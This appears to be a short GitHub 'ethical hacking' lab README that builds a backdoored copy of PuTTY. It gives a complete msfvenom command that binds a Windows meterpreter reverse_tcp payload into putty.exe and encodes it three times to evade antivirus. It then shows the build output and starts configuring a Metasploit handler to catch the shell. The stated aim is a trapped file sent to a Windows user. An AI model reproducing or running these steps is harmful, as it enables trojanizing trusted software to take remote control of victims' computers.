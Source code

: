 # Secu_03
### `Ethical hacking`
we are going to use a trapped file to send to a windows user.
`Lab: backdoor`

* Install putty<hr>
program for remote connections, 
download here <a href="https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html">https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html</a>
<hr>
we will link our putty.exe file to our backdoor.

```terminal
msfvenom -a x86 -x /home/samglish/Téléchargements/putty.exe -k -p windows/meterpreter/reverse_tcp lhost=your_Ip_adress lport=3232 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o hello.exe 
```
I explain to you
* msfvenom a metasploit module that will help us to :
<p>--plateform windows, create a backdoor for windows platform</p>
<p>x86/shikata_ga_nai -i 3 -b "\x00", the module that will help us encode our file so as not to be detected by the antivirus, we encoded it 3 times.</p>
<p>the output file will be hello.exe </p>

`output`
```terminal
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai chosen with final size 435
Payload size: 435 bytes
Final size of exe file: 1889792 bytes
Saved as: hello.exe
```
let's check if it's the windows exectable.
```terminal
file hello.exe
```
output:
```output
hello.exe: PE32 executable (GUI) Intel 80386, for MS Windows
```
now we will head to metasploit.
```terminal
msfconsole
```
output:
```output
msf6 > use exploit/multi/handler
```
after
```terminal
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >set payload windows/meterpreter/reverse_tcp
```
output:
```output
payload => windows/meterpreter/reverse_tcp
```

